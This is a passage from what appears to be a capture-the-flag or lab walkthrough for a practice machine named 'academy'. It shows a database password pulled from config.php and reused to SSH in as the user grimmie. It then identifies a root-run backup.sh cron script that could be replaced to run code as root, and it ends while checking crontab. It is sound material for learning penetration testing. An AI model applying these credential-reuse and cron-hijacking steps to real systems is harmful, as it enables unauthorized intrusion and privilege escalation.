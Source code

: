 ```bash
$ cat config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
```
*We've found Grimmie's password!* This is specifically for mysql but we know that *Grimmie uses the same password for everything*. So let's try escalating our privilege by [SSH](/networking/protocols/SSH.md)ing in as Grimmie:
```bash
ssh grimmie@10.0.2.15
grimmie@10.0.2.15''s password: My_V3ryS3cur3_P4ss
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Oct  5 20:45:41 2023 from 10.0.2.4
grimmie@academy:~$  # <--- we in
```
## Grimmie
Now that we're logged in as Grimmie, let's see what they have in their home dir.
```bash
grimmie@academy:~$ ls
backup.sh
grimmie@academy:~$ cat backup.sh 
#!/bin/bash

rm /tmp/backup.zip
zip -r /tmp/backup.zip /var/www/html/academy/includes
chmod 700 /tmp/backup.zip
```
This file is removing a backup file, zipping a new one from the `.../html/academy/includes` dir, and setting permissions on it to root only.

Since this is a backup file *it's likely that it's being backed up on a scheduled interval* by this script. And since the script is able to set root permissions on it, it's likely the scrip is *being executed as root*. 

Theoretically, if we can swap this script out with our own, we can execute code as root. *But first* we need to make sure it actually is being executed on a schedule.
### Automated scripts/ jobs
There are a few things we can check to make sure this script is being executed regularly. The first, and least invasive is simply to check the last time the `/tmp/backup.zip` file was edited:
```bash
ls -al /tmp/backup.zip
-rwx------  1 root    root          2222 Oct  6 20:50 backup.zip 
```
Being that it's currently 20:51 when this command was run, we can see that `backup.zip` was recently accessed (w/i the last minute). We can either wait around to check again and see if we catch the next execution, or try a few other ways to check.
### [crontab](/CLI-tools/linux/crontab.md)
`crontab` is a Linux tool which allows you to interface w/ [cron](/computers/linux/linux-processes.md). Cron is a service which automates linux processes/ commands on an interval. If this `backup.sh` script is being ran on an interval, we might find a 'cronjob' for it.
